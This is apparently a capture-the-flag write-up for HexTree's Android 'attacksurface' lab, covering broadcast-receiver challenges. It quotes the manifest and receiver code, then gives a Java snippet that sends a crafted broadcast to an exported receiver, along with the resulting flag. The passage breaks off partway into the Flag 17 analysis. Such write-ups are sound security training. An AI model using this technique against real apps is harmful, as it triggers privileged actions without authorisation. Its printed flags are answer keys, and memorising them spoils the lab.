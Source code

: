 +++
date = '2025-07-14T00:55:36+03:00'
draft = false
title = 'HEX Tree Broadcast Challenges'
+++



### Flag 16
#### Code analysis
```xml
<activity
    android:name="io.hextree.attacksurface.activities.Flag16Activity"
    android:exported="false"/>
</activity>
<receiver
     android:name="io.hextree.attacksurface.receivers.Flag16Receiver"
     android:enabled="true"
	 android:exported="true"/>
```

that doesn't look good >:  the activity isn't exported so we cant call it but luckily there is a receiver defined 

Receiver: 
```java
    public static String FlagSecret = "give-flag-16";
    
    public void onReceive(Context context, Intent intent) {
        if (intent.getStringExtra("flag").equals(FlagSecret)) {
            success(context, FlagSecret);
        }
    }
```

So The received broadcast need to have `flag` with value   `give-flag-16` so that the `success` method is called 

#### Solution
```java
Intent intent = new Intent();
intent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.receivers.Flag16Receiver");
intent.putExtra("flag","give-flag-16");
sendBroadcast(intent);

```

and yes this was a success 

![[hex_16_1.png]]

`HXT{basic-receiver-ds82s}`

### Flag 17
#### Code analysis
```java
    public static String FlagSecret = "give-flag-17";

    public void onReceive(Context context, Intent intent) {
        Log.i("Flag17Receiver.onReceive", Utils.dumpIntent(context, intent));
        if (isOrderedBroadcast()) {
            if (intent.getStringExtra("flag").equals(FlagSecret)) {
                success(context, FlagSecret);
                return;
            }
            Bundle bundle = new Bundle();
```